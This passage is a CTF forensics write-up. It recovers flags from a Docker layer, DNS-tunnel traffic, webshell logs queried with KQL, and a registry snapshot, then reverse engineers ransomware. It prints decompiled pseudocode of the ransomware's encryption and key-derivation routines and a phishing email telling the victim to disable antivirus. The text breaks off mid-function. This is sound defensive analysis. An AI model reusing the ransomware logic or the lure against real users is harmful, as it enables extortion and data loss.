






## Preface

This week, I had the opportunity to participate in a competition organized by my club, and it turned out to be an incredibly meaningful and enjoyable experience. I was very fortunate to achieve **first place** in **Group A (VKU)** and **seventh place** in **Group B (Global)**.

<div class="mx-auto"></div>

In the following sections, I will record and share all the challenges that I completed during the competition. I hope that this write-up will be helpful and enjoyable for anyone who reads it, especially those who are interested in similar competitions.

Finally, I would like to express my sincere gratitude to the organizers and my club for hosting such a well-organized and exciting competition. The challenges were thoughtfully designed, engaging, and educational, making the entire experience both fun and rewarding.

## Challenge

### FindItV2

#### Description

A DevOps team reported that the internal web container did not contain sensitive data; however, the SOC team suspected a leak during the image build process. Could any sensitive data have been present in it at some point?

#### Analysis Process

The problem involves issuing the following Docker command:

```shell
docker run --rm -it -p 80:80 ph4n10m1808/findit
```

This is a Docker forensic investigation exercise, so we will use **[dive](https://github.com/wagoodman/dive)** to analyze it. First, pull the image from **Docker Hub** and export it as a `.tar` file.

```shell
docker pull ph4n10m1808/findit
docker save ph4n10m1808/findit -o findit.tar
```

Next, we will use the following command for analysis.

```shell
dive docker-archive://findit.tar
```

We can see that in the third layer, it copies the `.git` folder into the image.
The corresponding layer ID is
`5cc6a04ce2921373bf301878d4647fbf3877cfcabf6ff23dd96308e5541689f1`.

We will extract the `.tar` file and search by third layer ID.

```shell
ls -la
total 12
drwxr-xr-x 3 root root 4096 Jan 16 21:07 .
drwxr-xr-x 3 root root 4096 Jan 16 20:51 ..
drwxr-xr-x 8 root root 4096 Jan 16 21:07 .git
```

We can see that it contains the `.git` folder; we will use [tools](https://github.com/internetwache/GitTools) to recover the source code and view the commit history from there.

```shell
$ /home/viettin/Desktop/tool/GitTools/Extractor/extractor.sh . /home/viettin/Desktop/tool/GitTools/Extractor/git_extractor
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[+] Found commit: c41ef63f94eedac90431bc772b5a63a2569a9572
[+] Found commit: 57cb3c04ad9c3fcab349948f82f3e75dad7abc08
[+] Found file: /home/viettin/Desktop/tool/GitTools/Extractor/git_extractor/1-57cb3c04ad9c3fcab349948f82f3e75dad7abc08/index.html
[+] Found commit: 6c806228bc41124a2cbc3f4728d4f4edeebcad6b
[+] Found file: /home/viettin/Desktop/tool/GitTools/Extractor/git_extractor/2-6c806228bc41124a2cbc3f4728d4f4edeebcad6b/.secret_flag.txt
```

And then just read the flag.

```shell
$ cat /home/viettin/Desktop/tool/GitTools/Extractor/git_extractor/2-6c806228bc41124a2cbc3f4728d4f4edeebcad6b/.secret_flag.txt

VSL{H1d3n_1n_l4y3r_d0k3r}
```

### Data Stolen

#### Description

Some data has been transmitted externally without authorization. Can you find it?

#### Analysis Process

The problem gives us a pcapng file, and we will use Wireshark to parse it. With the title **"Data Stolen"**, I'm sure it's related to data theft techniques like **DNS tunneling**, so I'm examining traffic related to **DNS**.

<div class="mx-auto"></div>

Then use the following tshark command to extract the DNS query.

```shell
$ tshark -r challenge.pcapng -Y 'dns.flags.response == 0 and dns.qry.name contains "vsl"'
 3996 77.032697748 172.26.31.148 → 10.23.11.27  101 DNS  Standard query 0x1c23 A VlNMe24z.vsl.com OPT
 4057 82.200585445 172.26.31.148 → 10.23.11.27  101 DNS  Standard query 0x2ee9 A dHcwcmtf.vsl.com OPT
 4093 86.320453015 172.26.31.148 → 10.23.11.27  101 DNS  Standard query 0x8b84 A dHVubjM=.vsl.com OPT
```

By decoding base64, you will get the first part of the flag as: `VSL{n3tw0rk_tunn3l1ng_15_c0mm0n_`

In HTTP traffic, simply filter as follows and you will get part 2 of the flag:

```shell
$ tshark -r challenge.pcapng -Y "http.request.method == POST"  -T fields -e http.request.uri -e http.file_data

/upload 4e4852304e474d3d
/upload 613139304d324d3d
/upload 614734786358557a66513d3d
```

Decode it and you will get the second part of the flag is `4tt4ck_t3chn1qu3}`. So now the final flag is `VSL{n3tw0rk_tunn3l1ng_15_c0mm0n_4tt4ck_t3chn1qu3}`.

### Unexpected Behavior

#### Description

The SOC team was monitoring a production web server when they suddenly observed unusual and suspicious activities occurring on the system. Initial indicators suggested a potential security incident involving unauthorized file uploads and abnormal outbound connections. You are provided with a file named challenge.zip, which contains all the resources required to investigate this incident. Please extract the archive and follow the instructions in the included README.md file to set up the environment and complete the challenge.

#### Analysis Process

The problem provides a ZIP file containing a **containerized ELK stack** for log analysis. Follow the instructions in the `README.md` file to access ELK and perform the analysis.

To complete this challenge, we need to analyze the logs and answer the following 4 questions:

- **Part 1:** What is the name of the file uploaded by the attacker to the web server that enabled remote code execution? (filename.extension)
- **Part 2:** Which MITER ATT&CK technique was used to escalate from file upload to remote code execution? (Upload File → RCE, Txxx.xxx)
- **Part 3:** Which IP address and port did the attacker attempt to connect to when establishing the reverse shell? (IP:PORT)
- **Part 4:** What is the name of the file that the attacker executed a command to write data into? (filename.extension)

In the filed `source.ip`, we can see that the IP address with the most traffic is `172.19.0.1`, which is very likely the attacker's IP address.

<div class="mx-auto"></div>

With the first question, we will build the **KQL** as follows:

```kusto
source.ip:"172.19.0.1" and event.dataset:apache.access
and (url.original:*.php* or url.original:*.phtml* or url.original:*.phar* or url.original:*.jsp* or url.original:*.aspx*)
and (url.query:*cmd=* or url.query:*exec=* or url.query:*system=* or url.query:*passthru=* or url.query:*shell=* or url.query:*c=*)
```

After running the query, the results will reveal many interesting things.

<div class="mx-auto"></div>

The attacker uploaded a **webshell** file named `shell.php` and then used the `cmd` parameter to access the shell. So we have enough information and the flag will be:

> `VSL{shell.php_T1505.003_172.26.16.181:12345_index.html}`

### The Joy of Nostalgia

#### Description

A data leak is suspected to stem from poor configuration management on a WebOS workstation. The engineer in charge reported executing a Registry Wipe procedure to sanitize sensitive data related to ticket SEC-2024-1837.

The ticket is closed. All bootstrap configuration keys have been purged from HKCU and HKLM. The system is deemed 'clean.' However, forensic analysis revealed traces of a command-line tool execution. We suspect a temporary snapshot was created for debugging purposes and was not safely deleted.

Locate the remaining ghost in the machine.

#### Analysis Process

The problem mentions **"command-line tool execution"**, so first we need to find which tool executed using the **Prefetch file** with the following command:

```shell
$ python3 ~/Desktop/volatility3/vol.py -f memory.dmp windows.filescan | grep -Ei '\.pf$'
...
0xa58a6bc2a8c0  \Windows\Prefetch\REG.EXE-A93A1343.pf
...
```

It's immediately apparent that a tool called `REG.exe` has been run.

> **REG.EXE** is a built-in Windows command-line tool for viewing, editing, exporting, backing up, and deleting data in the Windows Registry. This includes a list of files that the program accessed during runtime.

Dump the file `REG.EXE-A93A1343.pf` and use **PECmd** to parse it.

```shell
python3 ~/Desktop/volatility3/vol.py -f memory.dmp -o ~/Desktop/ windows.dumpfile --virtaddr 0xa58a6bc2a8c0
```

```shell
$ PECmd.exe -f "D:\sharedVB\mnt\REG.EXE-A93A1343.pf"
...
Files referenced: 14

00: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\NTDLL.DLL
01: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\REG.EXE (Executable: True)
02: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\KERNEL32.DLL
03: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\KERNELBASE.DLL
04: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\LOCALE.NLS
05: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\MSVCRT.DLL
06: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\ADVAPI32.DLL
07: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\SECHOST.DLL
08: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\RPCRT4.DLL
09: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\WS2_32.DLL
10: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\GLOBALIZATION\SORTING\SORTDEFAULT.NLS
11: \VOLUME{01dc81c43cd016a7-f43ce10e}\TEMP\LG\DEFAULT_SAVED.HIV (Keyword: True)
12: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\EN-US\KERNELBASE.DLL.MUI
13: \VOLUME{01dc81c43cd016a7-f43ce10e}\WINDOWS\SYSTEM32\EN-US\REG.EXE.MUI
...
```

Looking at the output, we can see a file named `DEFAULT_SAVED.HIV` - the hypothesis is that they may have previously used `reg.exe` to create a snapshot of the registry for debugging and forgot to delete it, so sensitive data is still present in the snapshot.

```shell
$ xxd DEFAULT_SAVED.hiv
...
00059b90: 5469 636b 6574 0003 2000 0000 5300 4500  Ticket.. ...S.E.
00059ba0: 4300 2d00 3200 3000 3200 3400 2d00 3100  C.-.2.0.2.4.-.1.
00059bb0: 3800 3300 3700 0000 2800 0000 766b 0a00  8.3.7...(...vk..
00059bc0: 0400 0080 0400 0000 0400 0000 0100 0200  ................
00059bd0: 5265 7472 7943 6f75 6e74 0000 445c 7d4f  RetryCount..D\}O
00059be0: 2014 0000 766b 0900 6a00 0000 088c 0500   ...vk..j.......
00059bf0: 0300 0000 0100 4526 426f 6f74 7374 7261  ......E&Bootstra
00059c00: 701f 1f1f 1f1f 1f1f f813 0000 4c47 5730  p...........LGW0
00059c10: 0102 1800 0100 4700 0100 6800 0100 3000  ......G...h...0.
00059c20: 0100 3500 0100 7400 0100 5f00 0100 3100  ..5...t..._...1.
00059c30: 0100 6e00 0100 5f00 0100 5400 0100 6800  ..n..._...T...h.
00059c40: 0100 3300 0100 5f00 0100 5400 0100 7200  ..3..._...T...r.
00059c50: 0100 3400 0100 6e00 0100 3500 0100 3400  ..4...n...5...4.
00059c60: 0100 6300 0100 7400 0100 3100 0100 3000  ..c...t...1...0.
00059c70: 0100 6e00 0100 0000 8813 0000 6f73 6f66  ..n.........osof
00059c80: 742e 6164 7665 7274 6973 696e 672e 7861  t.advertising.xa
00059c90: 6d6c 5f38 7765 6b79 6233 6438 6262 7765  ml_8wekyb3d8bbwe
00059ca0: 7000 0000 6e6b 2000 860f 15db 9d88 dc01  p...nk .........
00059cb0: 0200 0000 288c 0500 0000 0000 0000 0000  ....(...........
00059cc0: ffff ffff ffff ffff 0000 0000 ffff ffff  ................
00059cd0: ffff ffff ffff ffff 0000 0000 0000 0000  ................
00059ce0: 0000 0000 0000 0000 0000 0000 0800 0000  ................
00059cf0: 4368 696c 6472 656e 1800 0000 1200 0000  Children........
...
```

View the file in **hex format**, and you will see the flag in the offset range from `00059c10` to `00059c70`.

> `VSL{Gh05t_1n_Th3_Tr4n54ct10n}`

### Accidental

#### Description

While working on my project, a friend sent me a suspicious file and asked me to analyze it. After downloading and extracting the archive, I followed the included instructions. Unfortunately, I made a critical mistake and accidentally executed the malware on my system, causing my entire project to be encrypted.

Your task is to analyze the provided files, recover the encrypted data, and uncover the hidden secret.

#### Analysis Process

The challenge provides a disk image file, so we will use **FTK Imager** to analyze it. We can see that most of the files in the **employee** folder have been encrypted with the `.vsl` extension.

<div class="mx-auto"></div>

Additionally, the victim downloaded **ThunderBird**. We can view the emails the victim received in the following folder:

```shell
C:\Users\employee\AppData\Roaming\Thunderbird\Profiles\eae4o560.default-release\ImapMail\
```

The victim received an email sent from `ph4n10m.vsl@proton.me` with the following content:

```
Dear Malware Analyst,
I am sharing a malware sample for the purpose of technical analysis and security research.
Please download the sample using the link provided below:
Download link: [Sample Malware](https://drive.proton.me/urls/GPM77918YG#eyUpBCOTlS8T)
To ensure system safety, please strictly adhere to the following requirements:
Do not execute the sample on any physical machine or systems used in production environments.
Perform all analysis only within an isolated environment, such as a virtual machine, sandbox, or dedicated forensics lab.
It is strongly recommended to disable or tightly control network connectivity during analysis unless explicitly required for research purposes.
Handling note:
The attached file is password-protected.
Password: Vsl@2026​​​
To prevent automatic removal of the sample during analysis, please temporarily disable Windows Defender or equivalent real-time protection within the isolated environment only.
This sample may cause serious impact to systems if executed without proper controls. Please exercise extreme caution when handling and analyzing it.
Should you require additional information related to this sample, such as hashes, source details, or acquisition context, feel free to contact me.
Thank you for your cooperation.
Kind regards,
ph4n10m
```

The email mentioned a link containing malware, but upon analysis, that link was inaccessible. Therefore, we need to switch to a different approach.

Inside the **Temp folder**, I found a rather suspicious executable file named `WindowsSecurityServices.exe`. Dump the executable file and extract the hash to perform a lookup on VirusTotal.

<div class="mx-auto"></div>

This is the **ransomware** mentioned in the email. Load the malware into IDA and perform **reverse analysis**.

The main function that performs file encryption is `CryptEncrypt()`.

```c
__int64 __fastcall encryptFile(const char *a1)
{
  size_t v1; // rax
  DWORD v3; // eax
  size_t v4; // rax
  int v5; // eax
  SIZE_T v6; // rbx
  HANDLE ProcessHeap; // rax
  DWORD v8; // eax
  HANDLE v9; // rax
  _BYTE v10[262148]; // [rsp+40h] [rbp-40h] BYREF
  DWORD NumberOfBytesWritten; // [rsp+40044h] [rbp+3FFC4h] BYREF
  DWORD pdwDataLen; // [rsp+40048h] [rbp+3FFC8h] BYREF
  BYTE pbData[4]; // [rsp+4004Ch] [rbp+3FFCCh] BYREF
  HCRYPTKEY phKey; // [rsp+40050h] [rbp+3FFD0h] BYREF
  DWORD NumberOfBytesRead; // [rsp+4005Ch] [rbp+3FFDCh] BYREF
  __int128 Buffer; // [rsp+40060h] [rbp+3FFE0h] BYREF
  __int128 v17; // [rsp+40070h] [rbp+3FFF0h]
  _OWORD v18[2]; // [rsp+40080h] [rbp+40000h] BYREF
  int v19; // [rsp+400A0h] [rbp+40020h]
  struct _FILETIME LastWriteTime; // [rsp+400A8h] [rbp+40028h] BYREF
  _FILETIME LastAccessTime; // [rsp+400B0h] [rbp+40030h] BYREF
  struct _FILETIME CreationTime; // [rsp+400B8h] [rbp+40038h] BYREF
  char Destination[4096]; // [rsp+400C0h] [rbp+40040h] BYREF
  DWORD v24; // [rsp+410C0h] [rbp+41040h]
  DWORD dwBytes[3]; // [rsp+410C4h] [rbp+41044h]
  BOOL v26; // [rsp+410D0h] [rbp+41050h]
  DWORD nNumberOfBytesToRead; // [rsp+410D4h] [rbp+41054h]
  DWORD FileSize; // [rsp+410D8h] [rbp+41058h]
  DWORD FileAttributesA; // [rsp+410DCh] [rbp+4105Ch]
  char *v30; // [rsp+410E0h] [rbp+41060h]
  char *v31; // [rsp+410E8h] [rbp+41068h]
  LPVOID lpBuffer; // [rsp+410F0h] [rbp+41070h]
  unsigned int i; // [rsp+410F8h] [rbp+41078h]
  unsigned int v34; // [rsp+410FCh] [rbp+4107Ch]
  HANDLE hObject; // [rsp+41100h] [rbp+41080h]
  HANDLE hFile; // [rsp+41108h] [rbp+41088h]

  hFile = (HANDLE)-1LL;
  hObject = (HANDLE)-1LL;
  lpBuffer = 0LL;
  v34 = 0;
  strncpy(Destination, a1, 0xFFFuLL);
  Destination[4095] = 0;
  v31 = strrchr(Destination, 46);
  v30 = strrchr(Destination, 92);
  if ( v31 && (!v30 || v30 < v31) )
    *v31 = 0;
  v1 = strlen(Destination);
  strncat(Destination, _data_start__, 4095 - v1);
  if ( (unsigned int)IsFileAlreadyEncrypted(a1) )
    return 0LL;
  FileAttributesA = GetFileAttributesA(Destination);
  if ( FileAttributesA != -1 )
  {
    if ( (unsigned int)IsFileAlreadyEncrypted(Destination) )
      return 0LL;
    SetFileAttributesA(Destination, 0x80u);
    DeleteFileA(Destination);
  }
  hFile = CreateFileA(a1, 0x80000000, 1u, 0LL, 3u, 0x8000080u, 0LL);
  if ( hFile == (HANDLE)-1LL )
    return 0LL;
  FileSize = GetFileSize(hFile, 0LL);
  if ( FileSize )
  {
    v3 = FileSize;
    if ( FileSize > 0x80000 )
      v3 = 0x80000;
    nNumberOfBytesToRead = v3;
    v26 = FileSize > 0x80000;
    GetFileTime(hFile, &CreationTime, &LastAccessTime, &LastWriteTime);
    Buffer = 0LL;
    v17 = 0LL;
    memset(v18, 0, sizeof(v18));
    v19 = _mm_cvtsi128_si32((__m128i)0LL);
    v4 = strlen(g_Marker);
    memcpy(&Buffer, g_Marker, v4);
    if ( v26 )
      v5 = 2;
    else
      v5 = 1;
    HIDWORD(Buffer) = v5;
    LODWORD(v17) = FileSize;
    *((struct _FILETIME *)&v17 + 1) = LastWriteTime;
    *(_QWORD *)&dwBytes[1] = strrchr(a1, 46);
    if ( *(_QWORD *)&dwBytes[1] )
      strncpy((char *)v18, *(const char **)&dwBytes[1], 0x1FuLL);
    dwBytes[0] = ((nNumberOfBytesToRead + 15) & 0xFFFFFFF0) + 32;
    v6 = dwBytes[0];
    ProcessHeap = GetProcessHeap();
    lpBuffer = HeapAlloc(ProcessHeap, 0, v6);
    if ( lpBuffer
      && ReadFile(hFile, lpBuffer, nNumberOfBytesToRead, &NumberOfBytesRead, 0LL)
      && CryptDuplicateKey(g_hAESKey, 0LL, 0, &phKey) )
    {
      *(_DWORD *)pbData = 2;
      CryptSetKeyParam(phKey, 4u, pbData, 0);
      pdwDataLen = NumberOfBytesRead;
      if ( CryptEncrypt(phKey, 0LL, 1, 0, (BYTE *)lpBuffer, &pdwDataLen, dwBytes[0]) )
      {
        CryptDestroyKey(phKey);
        DWORD1(v17) = pdwDataLen;
        v19 = CalculateChecksum(&Buffer, 64LL);
        hObject = CreateFileA(Destination, 0x40000000u, 0, 0LL, 2u, 0x8000080u, 0LL);
        if ( hObject != (HANDLE)-1LL )
        {
          WriteFile(hObject, &Buffer, 0x44u, &NumberOfBytesWritten, 0LL);
          WriteFile(hObject, lpBuffer, pdwDataLen, &NumberOfBytesWritten, 0LL);
          if ( v26 )
          {
            for ( i = FileSize - nNumberOfBytesToRead; i; i -= NumberOfBytesRead )
            {
              v8 = i;
              if ( i > 0x40000 )
                v8 = 0x40000;
              v24 = v8;
              if ( !ReadFile(hFile, v10, v8, &NumberOfBytesRead, 0LL) || !NumberOfBytesRead )
                break;
              WriteFile(hObject, v10, NumberOfBytesRead, &NumberOfBytesWritten, 0LL);
            }
          }
          CloseHandle(hObject);
          hObject = (HANDLE)-1LL;
          CloseHandle(hFile);
          hFile = (HANDLE)-1LL;
          v34 = 1;
        }
      }
      else
      {
        CryptDestroyKey(phKey);
      }
    }
    if ( hFile != (HANDLE)-1LL )
      CloseHandle(hFile);
    if ( hObject != (HANDLE)-1LL )
      CloseHandle(hObject);
    if ( lpBuffer )
    {
      RtlSecureZeroMemory(lpBuffer, dwBytes[0]);
      v9 = GetProcessHeap();
      HeapFree(v9, 0, lpBuffer);
    }
    return v34;
  }
  else
  {
    CloseHandle(hFile);
    return 0LL;
  }
}
```

The main function of the function is as follows:

- Obtain the path to the original file `a1`.
- Create a new file with the same name but change the **extension to ransomware**.
- Write a `0x44` byte header at the beginning of the new file.
- Encrypt the beginning of the file using **AES-128 (ECB)** encryption.
- If the file is larger than `512KB`, copy the remaining plaintext to the new file.

However, for the purpose of **recovering the file**, we only need to pay attention to the following section:

```c
CryptDuplicateKey(g_hAESKey, 0LL, 0, &phKey);
```

The **CryptoAPI** call creates a copy of the existing encryption key handle (`g_hAESKey`) and returns the new handle in `phKey`. Therefore, the original key will be set at `g_hAESKey`. Read docs at [here](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptduplicatekey).

Looking at the pseudocode of `InitializeCrypto()` function:

```c
__int64 InitializeCrypto()
{
  BYTE pbData[2]; // [rsp+30h] [rbp-40h] BYREF
  __int16 v2; // [rsp+32h] [rbp-3Eh]
  int v3; // [rsp+34h] [rbp-3Ch]
  int v4; // [rsp+38h] [rbp-38h] BYREF
  _DWORD v5[13]; // [rsp+3Ch] [rbp-34h] BYREF

  if ( !CryptAcquireContextA(&g_hCryptProv, 0LL, g_Provider, 0x18u, 0xF0000000) )
    return 0LL;
  if ( (unsigned int)DeriveKeyFromSystem() )
  {
    *(_QWORD *)&v5[11] = pbData;
    *(_QWORD *)&v5[9] = &v4;
    *(_QWORD *)&v5[7] = v5;
    pbData[0] = 8;
    pbData[1] = 2;
    v2 = 0;
    v3 = 26126;
    v4 = 16;
    *(_QWORD *)v5 = g_RawAESKey;
    *(_QWORD *)&v5[2] = qword_140013D08;
    if ( CryptImportKey(g_hCryptProv, pbData, 0x1Cu, 0LL, 0, &g_hAESKey) )
    {
      RtlSecureZeroMemory(pbData, 0x1CuLL);
      RtlSecureZeroMemory(&g_RawAESKey, 0x10uLL);
      return 1LL;
    }
    else
    {
      RtlSecureZeroMemory(pbData, 0x1CuLL);
      CryptReleaseContext(g_hCryptProv, 0);
      return 0LL;
    }
  }
  else
  {
    CryptReleaseContext(g_hCryptProv, 0);
    return 0LL;
  }
}
```

It generates an **AES-128 HCRYPTKEY** (`g_hAESKey`) from a **16-byte** raw key - generated by `DeriveKeyFromSystem()`, by encapsulating the key into a `PLAINTEXTKEYBLOB` and then calling `CryptImportKey`. Therefore, the next thing we need to do is reverse engineer the code in the `DriveKeyFromSystem()` function.

```c
__int64 DeriveKeyFromSystem()
{
  ULONG v0; // eax
  CHAR Buffer[268]; // [rsp+50h] [rbp-30h] BYREF
  DWORD VolumeSerialNumber; // [rsp+15Ch] [rbp+DCh] BYREF
  HKEY phkResult; // [rsp+160h] [rbp+E0h] BYREF
  DWORD nSize; // [rsp+16Ch] [rbp+ECh] BYREF
  UCHAR pbOutput[8]; // [rsp+170h] [rbp+F0h] BYREF
  __int64 v7; // [rsp+178h] [rbp+F8h]
  BCRYPT_HASH_HANDLE phHash; // [rsp+198h] [rbp+118h] BYREF
  BCRYPT_ALG_HANDLE phAlgorithm; // [rsp+1A0h] [rbp+120h] BYREF
  NTSTATUS v10; // [rsp+1A8h] [rbp+128h]
  unsigned int v11; // [rsp+1ACh] [rbp+12Ch]

  phAlgorithm = 0LL;
  phHash = 0LL;
  v11 = 0;
  nSize = 16;
  if ( !GetComputerNameA(g_KeyComputerName, &nSize) )
    strcpy(g_KeyComputerName, "UNKNOWN");
  nSize = 256;
  if ( !GetUserNameA(g_KeyUserName, &nSize) )
    strcpy(g_KeyUserName, "UNKNOWN");
  if ( !(unsigned int)GetCurrentUserSID(&g_KeyUserSID, 256LL) )
    strcpy((char *)&g_KeyUserSID, "S-1-5-21-0-0-0-0");
  VolumeSerialNumber = 0;
  if ( GetVolumeInformationA("C:\\", 0LL, 0, &VolumeSerialNumber, 0LL, 0LL, 0LL, 0) )
    _mingw_snprintf(g_KeyVolumeSerial, 0x20uLL, "%08X", VolumeSerialNumber);
  else
    strcpy(g_KeyVolumeSerial, "00000000");
  strcpy((char *)&g_KeyMachineGUID, "00000000-0000-0000-0000-000000000000");
  if ( !RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Cryptography", 0, 0x20119u, &phkResult) )
  {
    nSize = 64;
    RegQueryValueExA(phkResult, "MachineGuid", 0LL, 0LL, &g_KeyMachineGUID, &nSize);
    RegCloseKey(phkResult);
  }
  GetTempPathA(0x104u, Buffer);
  _mingw_snprintf(g_KeyPersistPath, 0x104uLL, g_PersistPath, Buffer);
